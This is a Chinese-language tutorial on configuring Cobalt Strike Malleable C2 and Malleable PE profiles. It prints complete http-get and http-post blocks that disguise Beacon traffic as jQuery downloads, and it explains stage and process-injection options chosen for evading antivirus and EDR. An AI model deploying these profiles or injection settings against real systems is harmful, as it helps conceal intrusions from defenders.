MalleableC2详解
malleable C2和Malleable PE
malleable C2 用于规避流量检测
官网链接：https://www.cobaltstrike.com/help-malleable-c2
需要考虑网络环境，根据目标网络编写Malleable C2 Profile
C2的配置可包含以下部分
-
Profile元素
-
global OPTIONS
-
https-certificate
-
code-signer
-
http-get
-
http-post
-
http-stager
-
post-ex
-
TCP Beacon
-
…
在 Malleable C2 中, 语句可分为数据转换语句, 终止语句和额外语句三种类型。
数据转换语句：base64 base64url mask netbios netbiosu prepend append
终止语句： print uri-append header parameter
额外语句： header parameter
数据转换语句如下：
| 声明方式 | 编码方式 |
|---|---|
| append “string” | 将指定字符串附加在末尾 |
| base64 | Base64编码 |
| base64url | 一种变异的Base64编码(这种编码后的数据不会含义破坏url完整性的字符如+号) |
| mask | XOR编码 key是随机的 |
| netbios | NetBIOS Encode ‘a’ |
| netbiosu | NetBIOS Encode ‘A’ |
| 上面这种编码方式我也不怎么了解反正我只知道也是一种编码方式，有兴趣的自己谷歌一下吧 | |
| prepend “string” | 将指定字符串附加在头部 |
Strings转义字符如下：
| 值 | 含义 |
|---|---|
| “\n” | 换行符 |
| “\r” | 回车 |
| “\t” | tab键 |
| “\u####” | 表示一个unicode字符 |
| “\x##” | 十六进制（shellcode知道吧就是那东西的写法\x90\x90） |
| “" | \ |
终止关键字如下：
| 声明方式 | 数据存放位置 |
|---|---|
| header “header” | 将数据存储在指定HTTP头中 |
| parameter “key” | 将数据存储在指定URI参数中 |
| 将数据存储在http body中 | |
| uri-append | 直接附加到URI后面使用此终止语句请不要使用base64而是改为base64url因为普通的base64编码会带有+号，放到url中会转义 |
http-get.server.output，http-post.server.output和http-stager.server.output这个三个代码块不能使用其他的终止语句只能使用print语句，http-get.client.metadata则是不能使用print当作终止语句的原因和get body传参有关
CS Beacon的通信方式如下：
- Beacon给Teamserver发送一个HTTP GET请求，包含主机的元数据信息（如系统类型、版本、当前用户等）后进入睡眠状态
- Teamserver给目标发送指令
- Beacon返回执行完命令的回显后进入睡眠
- Teamserver要求终止任务

MalleablePE
Malleable PE 直译就是可拓展PE，通常在实战环境下会针对Loader进行免杀，并不会考虑针对beacon进行免杀，这就导致了很多杀软/EDR的内存防护能针对默认设置的beacon进行查杀。C2Profile提供了很好地操作beacon的方法，C2Profile不仅仅可以自定义beacon的通信属性(例如uri，header等等)，还可以对beacon进行操作，从而实现免杀的目的。
环境说明
kali linux 2019.3
Cobaltstrike 4.0
配置项详解
以一个模板文件进行分析，模板文件来自github仓库malleable-c2，按照对应的cs版本下载profile文件进行配置，以下为每个模块的释义
[global OPTIONS]
公共部分包含配置文件名称、sleeptimes、jitter、host_stage、useragent
[Profile Name]

[Sleep Times]

模板示例中sleeptime为beacon的休眠时间，jitter为随机值，避免每次响应时间相同导致被发现，例如此时设置的基准值为45秒，加上37%的浮动，即每次的响应时间为28-45秒
[User-Agent]
UA头的设置，使用默认的UA头可以伪装成正常浏览请求，防止某些安全设备的告警

[SSL CERTIFICATE]
此处可配置SSL证书，通过keytool可以生成自签证书

[http-get]
以下为profile示例中的http-get
http-get {
set uri "/jquery-3.3.1.min.js";
set verb "GET";
client {
header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
#header "Host" "code.jquery.com";
header "Referer" "http://code.jquery.com/";
header "Accept-Encoding" "gzip, deflate";
metadata {
base64url;
prepend "__cfduid=";
header "Cookie";
}
}
server {
header "Server" "NetDNA-cache/2.2";
header "Cache-Control" "max-age=0, no-cache";
header "Pragma" "no-cache";
header "Connection" "keep-alive";
header "Content-Type" "application/javascript; charset=utf-8";
output {
mask;
base64url;
## The javascript was changed. Double quotes and backslashes were escaped to properly render (Refer to Tips for Profile Parameter Values)
# 2nd Line
prepend "!function(e,t){\"use strict\";\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error(\"jQuery requires a window with a document\");return t(e)}:t(e)}(\"undefined\"!=typeof window?window:this,function(e,t){\"use strict\";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return\"function\"==typeof t&&\"number\"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement(\"script\");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+\"\":\"object\"==typeof e||\"function\"==typeof e?l[c.call(e)]||\"object\":typeof e}var b=\"3.3.1\",w=function(e,t){return new w.fn.init(e,t)},T=/^[\\s\\uFEFF\\xA0]+|[\\s\\uFEFF\\xA0]+$/g;w.fn=w.prototype={jquery:\"3.3.1\",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for(\"boolean\"==typeof a&&(l=a,a=arguments[s]||{},s++),\"object\"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:\"jQuery\"+(\"3.3.1\"+Math.random()).replace(/\\D/g,\"\"),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||\"[object Object]\"!==c.call(e))&&(!(t=i(e))||\"function\"==typeof(n=f.call(t,\"constructor\")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?\"\":(e+\"\").replace(T,\"\")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,\"string\"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),\"function\"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each(\"Boolean Number String Function Array Date RegExp Object Error Symbol\".split(\" \"),function(e,t){l[\"[object \"+t+\"]\"]=t.toLowerCase()});function C(e){var t=!!e&&\"length\"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&(\"array\"===n||0===t||\"number\"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b=\"sizzle\"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=\"\r";
# 1st Line
prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */";
append "\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});";
print;
}
}
}
set-uri用于设置请求的uri地址，此处为固定的jquery，如设置多个值，则会自动从中随机选取
client和server是Beacon的请求规则和Teamserver的响应规则，其中metadata部分会进行base64编码
[http-post]
http-post {
set uri "/jquery-3.3.2.min.js";
set verb "POST";
client {
header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
#header "Host" "code.jquery.com";
header "Referer" "http://code.jquery.com/";
header "Accept-Encoding" "gzip, deflate";
id {
mask;
base64url;
parameter "__cfduid";
}
output {
mask;
base64url;
print;
}
}
server {
header "Server" "NetDNA-cache/2.2";
header "Cache-Control" "max-age=0, no-cache";
header "Pragma" "no-cache";
header "Connection" "keep-alive";
header "Content-Type" "application/javascript; charset=utf-8";
output {
mask;
base64url;
## The javascript was changed. Double quotes and backslashes were escaped to properly render (Refer to Tips for Profile Parameter Values)
# 2nd Line
prepend "!function(e,t){\"use strict\";\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error(\"jQuery requires a window with a document\");return t(e)}:t(e)}(\"undefined\"!=typeof window?window:this,function(e,t){\"use strict\";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return\"function\"==typeof t&&\"number\"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement(\"script\");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+\"\":\"object\"==typeof e||\"function\"==typeof e?l[c.call(e)]||\"object\":typeof e}var b=\"3.3.1\",w=function(e,t){return new w.fn.init(e,t)},T=/^[\\s\\uFEFF\\xA0]+|[\\s\\uFEFF\\xA0]+$/g;w.fn=w.prototype={jquery:\"3.3.1\",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for(\"boolean\"==typeof a&&(l=a,a=arguments[s]||{},s++),\"object\"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:\"jQuery\"+(\"3.3.1\"+Math.random()).replace(/\\D/g,\"\"),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||\"[object Object]\"!==c.call(e))&&(!(t=i(e))||\"function\"==typeof(n=f.call(t,\"constructor\")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?\"\":(e+\"\").replace(T,\"\")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,\"string\"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),\"function\"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each(\"Boolean Number String Function Array Date RegExp Object Error Symbol\".split(\" \"),function(e,t){l[\"[object \"+t+\"]\"]=t.toLowerCase()});function C(e){var t=!!e&&\"length\"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&(\"array\"===n||0===t||\"number\"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b=\"sizzle\"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=\"\r";
# 1st Line
prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */";
append "\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});";
print;
}
}
}
http-post为通过post请求发送的配置，与http-get类似
[http-config]
http-config代码块会影响Cobalt Strike所有HTTP响应

[stage]
stage块控制Beacon DLL如何加载到内存中并且可以修改Beacon DLL的内容

stage配置的相关配置如下
| 配置 | 例子 | 描述 |
|---|---|---|
| checksum | 0 | Beacon的PE头中的checksum字段 |
| cleanup | false | 尝试将反射DLL中的内存释放 |
| compile_time | 14 July 2009 8:14:00 | Beacon的PE头中的编译时间信息 |
| Beaconentry_point | 92145 | Beacon的PE头中的入口点信息 |
| image_size_x64 | 512000 | 64位Beacon的PE头中的SizeOfImage字段 |
| image_size_x86 | 512000 | 32位Beacon的PE头中的SizeOfImage字段 |
| module_x64 | xpsservices.dll | 请求64位反射加载器通过VirtualAlloc方式覆盖空间加载特定的lib库 |
| module_x86 | xpsservices.dll | 和x64类似，反射加载 |
| name | beacon.x64.dll | Beacon DLL的导出名称 |
| obfuscate | false | 混淆反射DLL的导入表, 覆写未使用的头字段, 使反射加载器将不含DLL头信息的Beacon复制到新的内存地址. |
| rich_header | 编译中加载的源数据 | |
| sleep_mask | false | 在内存中对Beacon进行混淆，以便在sleep前执行 |
| smartinject | false | 使用嵌入式指针函数来引导Beacon Agent，而不是遍历kernel32的导出地址表 |
| stomppe | true | 在Beacon加载后，使用stomp技术覆盖MZ，PE头和e_lfanew的值 |
| userwx | false | 使反射加载器控制Beacon在内存中的RWX权限 |
| allocator | VirtualAlloc | 控制Beacon反射加载器初始化时使用的内存分配函数（VirtualAlloc，HeapAlloc，MapViewOfFile）默认使用VirtualAlloc函数 |
[process-inject]
process-inject用于进程注入相关的内容进行配置，以控制注入相关的行为

有部分配置项和stage类似，老外的注释写的挺详细的，详细配置项如下：
| Option | Example | Description |
|---|---|---|
| allocator | VirtualAllocEx | 在远程进程中分配内存的首选方法。可以指定使用 VirtualAllocEx 或 NtMapViewOfSection。NtMapViewOfSection 选项仅适用于相同架构的注入。VirtualAllocEx 始终用于跨架构的内存分配 |
| min_alloc | 4096 | 注入内容请求的最小内存量 |
| startrwx | false | 为注入内容使用 RWX 作为初始权限。另一种选择是 RW |
| userwx | false | 将 RWX 作为注入内容的最终权限。另一种选择是 RX |
除了基础部分外，下面还包含一个execute配置子项，execute代码块控制Beacon在进程注入时要使用的方法。Beacon会检查execute代码块中的每个选项，确定该选项在当前环境中是否可用，在可用时尝试该方法。如果未执行代码，则移至下一个选项。

具体配置项如下：
| Option | x86 ‑> x64 | x64 ‑> x86 | Notes |
|---|---|---|---|
| CreateThread | 仅适用当前Session | ||
| CreateRemoteThread | Yes | 不适用跨平台session | |
| NtQueueApcThread | |||
| NtQueueApcThread‑s | 这是“Early Bird（APC队列代码注入技术，文章还在写…）”注入技术。仅适用于挂起的进程（如post-ex ） | ||
| RtlCreateUserThread | Yes | Yes | 在 XP 的目标上风险较高；使用 RWX shellcode 进行 x86 到 x64 的注入 |
| SetThreadContext | Yes | 仅适用于挂起的进程（如post-ex ） |
CreateThread是专门针对自注入的，SetThreadContext和NtQueueApcThread-s选项和Beacon后渗透任务的临时进程相关。这些函数修改暂停进程的主线程来进行注入，NtQueueApcThread-s选项是Cobalt Strike对Early Bird代码注入技术的实现。
NtQueueApcThread、RtlCreateUserThread和CreateRemoteThread是标准的进程注入选项，用于将代码注入到远程进程中
此外CreateThread和CreateRemoteThread还具有线程起始地址欺骗功能，这对于绕过像Get-InjectedThread这样的技术很有用。使用方式[function] “module!function+[地址偏移量]”
[post-ex]
post-ex是CS profile中关于后渗透的综合功能最强大的一个部分，以反射DLL的形式实现，CS会生成一个临时进程，并将功能注入其中。进程注入块控制进程注入步骤。post-ex代码块控制了CS中后渗透任务的具体内容和行为。
在样例中可以看到光注释就写了一屏
